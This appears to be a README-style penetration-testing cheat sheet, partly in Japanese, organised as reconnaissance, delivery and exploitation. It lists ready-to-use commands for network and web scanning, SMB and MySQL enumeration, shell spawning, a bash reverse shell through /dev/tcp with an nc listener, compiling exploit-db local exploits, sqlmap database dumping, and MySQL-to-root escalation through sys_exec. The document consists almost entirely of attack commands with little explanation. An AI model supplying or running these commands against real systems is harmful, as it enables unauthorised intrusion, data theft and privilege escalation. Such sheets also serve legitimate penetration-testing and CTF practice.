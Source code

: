 🐻

## Reconnaissance

ホスト確認

    nmap -sn [address]/24
    netdiscover -r [address]/24

ポート確認

    nmap -v -p 1-65535 -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Nmap Scripting Engine

    /usr/share/nmap/scripts #スクリプト所在
    nmap --script=smb-enum-* -p139,445 [address] #Samba

Webサーバ／[dirsearch](https://github.com/maurosoria/dirsearch)

    nikto -h [HOST]
    dirb http://XXX.com/
    python3 dirsearch.py -u http://XXX.com -e * -x 403,404

状態確認

    uname -a
    cat /etc/redhat-release
    cat /proc/version

SSH／認証鍵使わずに接続

     ssh -o PubkeyAuthentication=no user@10.0...

MySQL

     mysql -u root -p
     show databases;
     use ids;
     show tables;
     select * from idtable;

Samba

    smbclient //[address]/[dir] -U [user]

[SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)


## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

Spawning A TTY Shell

    echo os.system('/bin/bash') #LShell
    /bin/sh -i
    python -c 'import pty; pty.spawn("/bin/sh")'
    ruby -e 'exec "/bin/bash"'


[bashリバースシェル](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

    nc -lvp 9999
    ;bash -i >& /dev/tcp/ip/9999 0>&1

[exploitdb](https://github.com/offensive-security/exploitdb)

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc gcc XXX.c -o test
    ./test

sqlmap 

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL #GET
    sqlmap -u "http://XXX.com/db.php" --method POST --data "id=XXX" #POST

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL --dbs 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --tables 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --T [tb_name] --dump

MySQL Root to System Root with lib_mysqludf_sys

    use mysql;
    select * from func;
    select sys_exec('usermod -a -G admin [user]');


[LinEnum](https://github.com/rebootuser/LinEnum)

    ./LinEnum.sh -r repo -e /tmp/.le



